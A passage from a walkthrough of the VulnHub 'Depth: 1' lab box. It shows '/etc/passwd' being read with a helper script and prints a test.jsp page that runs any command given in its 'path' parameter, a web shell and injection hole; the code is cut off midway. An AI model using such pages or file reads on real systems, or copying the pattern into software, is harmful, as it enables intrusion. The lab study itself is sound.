 This is how `/etc/passwd` (only the ones of interest are shown) looked like.

```
# ./cat.sh /etc/passwd
...
tomcat8:x:112:115::/usr/share/tomcat8:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
```

This is how their respective home directories looked like.

![screenshot-5](/assets/images/posts/depth-walkthrough/screenshot-5.png)

Noticed that `tomcat8` has a `.ssh` directory?

![screenshot-4](/assets/images/posts/depth-walkthrough/screenshot-4.png)

Noticed that `bill` is on the `sudoers` list? 

And this is how `test.jsp` (only the JSP portion is shown) looked like.

{% highlight jsp linenos %}
# ./cat.sh ./webapps/ROOT/test.jsp
<%@ page import="java.util.*,java.io.*,java.util.regex.*"%>
...
<%
    if (request.getParameter("path") != null) {
        String delims = "[ ]+";
        out.println("Command: " + request.getParameter("path") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("path"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        out.println("<table border='1'><tr><th>Owner</th><th>Group</th><th>Size</th><th>Filename</th></tr>");

        String disr = dis.readLine();
        while ( disr != null ) {
            String[] tokens = disr.split(delims);


[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com